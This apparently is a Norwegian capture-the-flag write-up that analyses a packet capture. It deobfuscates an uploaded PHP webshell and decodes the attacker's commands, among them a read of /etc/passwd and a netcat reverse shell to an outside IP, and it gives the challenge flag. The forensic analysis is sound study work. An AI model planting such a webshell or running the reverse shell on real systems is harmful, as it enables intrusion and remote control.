

# Shellcapture

Wireshark this!

[⬇️ capture.pcap](./capture.pcap)

# Writeup

## HTTP Requests

Basert på tidslinjen prøvde angriperne først `/`, deretter `/admin/panel.html` og `/admin/panel.php`, før de prøvde `/evil.php`. `Index.html` viser kun en Coming soon-melding, `panel.html` gir en 404-feilmelding, mens `panel.php` viser en filopplaster.



Videre ser vi at det blir lastet opp en fil `evil.php` som inneholder følgende kode:

```php
<?php 
function cryptstuff($s,$str){$i=0;$j=0;$res='';for ($y = 0; $y < strlen($str); $y++) {$i = ($i + 1) % 256;$j = ($j + $s[$i]) % 256;$x = $s[$i];$s[$i] = $s[$j];$s[$j] = $x;$res .= $str[$y] ^ chr($s[($s[$i] + $s[$j]) % 256]);}return $res;}
function cryptostuff($e1,$o2){$r3=count($e1);$a4='';for($b5=0;$b5<strlen($o2);$b5++){$e6=$e1[$b5%$r3];$n7=ord($o2[$b5])^$e6;$a4.=chr($n7);}return $a4;}
$l = ""; /* Removed for readability */
$s0 = array(); /* Removed for readability */
$s1 = array(); /* Removed for readability */
$obfuscation = chr($s0[209]).chr($s0[250]).chr($s0[222]).chr($s0[198]).chr($s0[198]).chr($s0[79]).chr($s0[222]).chr($s0[218]).chr($s0[222]).chr($s0[178]);
$sauce = chr($s0[178]).chr($s0[205]).chr($s0[23]).chr($s0[241]).chr($s0[115]).chr(111).chr($s1[17]).chr($s1[4]).chr($s1[22]).chr($s1[5]).chr($s1[5]);
$spice = chr($s1[3]).chr($s1[37]).chr($s1[46]).chr($s1[8]).chr($s1[4]).chr($s1[7]).chr($s0[209]).chr($s0[115]).chr($s0[54]).chr($s0[16]).chr($s0[16]);

$b = chr($s0[195]).chr($s0[167]).chr($s0[209]).chr($s0[222])."64".chr($s0[79]);
$d = $b.chr($s1[149]).chr($s1[0]).chr($s1[3]).chr($s1[7]).chr($s1[149]).chr($s1[0]);
$e = $b.chr($s1[0]).chr($s1[1]).chr($s1[3]).chr($s1[7]).chr($s1[149]).chr($s1[0]);
$c = $obfuscation($sauce($s0, $d($_POST['id'])));
echo $e($spice($s1, $d($l)."\n".$c));
?>
```

Dette ser ut som en form for webshell som tar en POST-request, deobfusker den, kjører den gjennom en noe kryptering og returnerer en verdi. 

## Deobfuskering

Siden vi har alle requestene både til og fra `evil.php` kan vi også finne utav hva som er gjort. Vi begynner med å deobfuskere koden så vi kan analysere trafikken. Første jeg gjør er å kommentere ut det som kjører ukjent kode, som `$c = ` og `echo` linjen.

Jeg begynner med å `echo` ut variablene for å se hva de skal være. Ser ut som b, d og e er sammensatt av hverandre. Så begynner bare på toppen og printer ut `l, b, d, e, obfuscation, sauce og spice`: 

```php
$l = "pwnomatic ascii art"
$b = "base64_";
$d = "base64_decode";
$e = "base64_encode";
$obfuscation = "shell_exec";
$sauce = "cryptostuff";
$spice = "cryptostuff";
```

Litt ryddet kode:

```php
<?php
function cryptostuff($e1,$o2){$r3=count($e1);$a4='';for($b5=0;$b5<strlen($o2);$b5++){$e6=$e1[$b5%$r3];$n7=ord($o2[$b5])^$e6;$a4.=chr($n7);}return $a4;}
$s1 = array() /* removed for readability */
$s0 = array() /* removed for readability */
$shell_response = shell_exec(cryptostuff($s0, base64_decode($_POST['id'])));
echo base64_encode(cryptostuff($s1, $shell_response));
?> 
```

Så kjapt ser vi at den tar en POST-request, deobfuskere den med base64_decode, crypterer den med cryptostuff, kjører den gjennom en shell_exec og returnerer resultatet.

Så da må vi reversere cryptostuff for å lese alt som skjer. Jeg navngir her bedre variablene og funksjonene for å gjøre det lettere å lese:

```php
function cryptostuff($key,$cleartext) {
    $sizeOfKey = count($key);
    $result = '';
    for($i = 0; $i < strlen($cleartext); $i++){
        $charKey = $key[$i % $sizeOfKey];
        $cryptedChar = ord($cleartext[$i]) ^ $charKey;
        $result .= chr($cryptedChar);
    }
    return $result;
}
```

Dette ser ut som en enkel XOR-kryptering, så denne skal være grei å bruke til reversering.

Så da har vi komponentene vi trenger:

1. base64_decode 
2. cryptostuff
3. keys for inn og utkryptering

## Reversering

Dekryptering kan gjøres i valgfritt språk, men vi kan fortsette i PHP:
```php
<?php
function cryptostuff($e1,$o2){$r3=count($e1);$a4='';for($b5=0;$b5<strlen($o2);$b5++){$e6=$e1[$b5%$r3];$n7=ord($o2[$b5])^$e6;$a4.=chr($n7);}return $a4;}
$s0 = array(/* removed for readability */);
$s1 = array(/* removed for readability */);

$key = $argv[1];
$ct = $argv[2];

if ($key == "in") {
    $s = $s0;
    $ct = urldecode($ct);
} else {
    $s = $s1;
}

echo cryptostuff($s, base64_decode($ct)) . "\n";
?>
```

Vi kan kjøre scriptet med `php -f deobfuscate.php in 'urlencoded base64 string'` for å deobfuskere inkommende kommandoer og `php deobfuscate.php out 'base64_encoded_string'` for å deobfuskere utgående svar fra servern.

Fra starten av pcap-filen kan vi se på alle POST-requests og deobfusker de:

1. `ls -la`
2. `ls -la ..`
3. `cat /etc/passwd`
4. `ls -la /`
5. `cat /flag`
6. `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.145.1 3333 >/tmp/f`

Her er det kun #5 det er interessant å deobfuskere:

# Flag

```
$ php -f deobfuscate.php out '...'
                                           __  .__
________  _  ______   ____   _____ _____ _/  |_|__| ____
\____ \ \/ \/ /    \ /  _ \ /     \\__  \\   __\  |/ ___\
|  |_> >     /   |  (  <_> )  Y Y  \/ __ \|  | |  \  \___
|   __/ \/\_/|___|  /\____/|__|_|  (____  /__| |__|\___  >
|__|              \/             \/     \/             \/

Gratulerer, du fant flagget: skatt{pcap_h3ro_and_php_h4ter}

```


# Flag

```
skatt{pcap_h3ro_and_php_h4ter}
```